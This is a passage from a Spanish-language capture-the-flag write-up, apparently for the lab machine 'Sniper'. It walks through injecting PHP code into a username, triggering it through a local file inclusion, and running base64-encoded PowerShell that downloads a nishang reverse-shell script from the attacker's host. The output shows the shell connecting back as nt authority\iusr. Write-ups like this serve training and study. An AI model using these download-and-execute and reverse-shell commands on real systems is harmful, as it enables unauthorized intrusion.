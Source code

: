 Haciendo una prueba en local vemos que ahora si que recibimos algo...
![Write-up Image](images/Screenshot_18.png)

Ahora falta una manera para poder crear un usuario utilizando como nombre de usuario nuestro payload...

También detecté que probablemente haya una restricción en la longitud del nombre de usuario.

Así que después de un rato creé un usuario con este nombre y después ejecuté el código inyectado en el usuario a través del LFI encontrado.
```shell
echo 'wget "10.10.14.50:8081/r.ps1" -OutFile "C:\Windows\Temp\r.ps1"' | iconv -t UTF-16LE | base64 -w 0
dwBnAGUAdAAgACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAwADoAOAAwADgAMQAvAHIALgBwAHMAMQAiACAALQBPAHUAdABGAGkAbABlACAAIgBDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAHIALgBwAHMAMQAiAAoA
```

**No olvidar agregar el ```<?=`powershell /enc PAYLOAD`?>``` al nombre de usuario**

```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.229.6 - - [23/Aug/2024 23:34:28] "GET /r.ps1 HTTP/1.1" 200 -
```

Este script es el típico `Invoke-PowerShellTcp.ps1` de `nishang` pero agregando esta línea al final del script.
```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.50 -Port 443
```

Ahora solo falta ejecutar el script descargado...
```shell
echo 'powershell C:\Windows\Temp\r.ps1' | iconv -t UTF-16LE | base64 -w 0
cABvAHcAZQByAHMAaABlAGwAbAAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGUAbQBwAFwAcgAuAHAAcwAxAAoA
```

```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49806
Windows PowerShell running as user SNIPER$ on SNIPER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog>
PS C:\inetpub\wwwroot\blog> whoami
nt authority\iusr
```

# User Pivoting
Vemos que hemos ganado acceso como `nt authority\iusr` , detectamos un usuario a nivel de sistema llamado `Chris`